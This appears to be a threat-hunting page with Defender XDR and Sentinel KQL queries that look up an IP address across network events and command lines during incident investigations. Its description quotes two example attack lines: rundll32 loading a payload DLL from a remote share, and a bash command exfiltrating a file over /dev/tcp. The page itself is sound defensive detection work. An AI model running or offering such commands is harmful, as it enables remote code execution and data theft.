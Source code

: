 # IP Lookup (Network & Commandline)

## Query Information

#### Description
This query can be used to perform a IP lookup on both the DeviceNetworkEvents as well as the commandline references. This can help in incident investigations to quickly find all the related logs and commandline references of the IP address. The *LookupIP* is used to set a IP on which you want to look for. This can eiter be a public or private address. Both ipv4 and ipv6 are supported The query has also a setting that you can change to only show commandline results, thent he line *| where CommandLineReference == true* needs to be uncommented. 

Two examples below are stated, which will be shown based on the commandline lookup. Remote downloads or executions of files can be an indicator of malicious activity.
```
rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
```

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Rundll32/
- https://lolbas-project.github.io/lolbas/Binaries/Bash/
## Defender XDR
```
// Set the IP address you are trying to lookup.
let LookupIP = "127.0.0.1";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where Timestamp > ago(SearchWindow)
     | where RemoteIP == LookupIP
     | project Timestamp, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the IP
let CommandLineReferences = DeviceProcessEvents
     | where Timestamp > ago(SearchWindow)
     | where ProcessCommandLine contains LookupIP
     | project Timestamp, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
     // If you do want to have raw logs remove the summarize below.
     // CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteURLs = make_set(RemoteUrl), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(Timestamp, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteIP
     | sort by LastMention
)
```
## Sentinel
```
// Set the IP address you are trying to lookup.
let LookupIP = "127.0.0.1";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where TimeGenerated > ago(SearchWindow)
     | where RemoteIP == LookupIP
     | project TimeGenerated, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the IP
let CommandLineReferences = DeviceProcessEvents
     | where TimeGenerated > ago(SearchWindow)
     | where ProcessCommandLine contains LookupIP
     | project TimeGenerated, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
     // If you do want to have raw logs remove the summarize below.
     // CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteURLs = make_set(RemoteUrl), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(TimeGenerated, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteIP
     | sort by LastMention
)
```
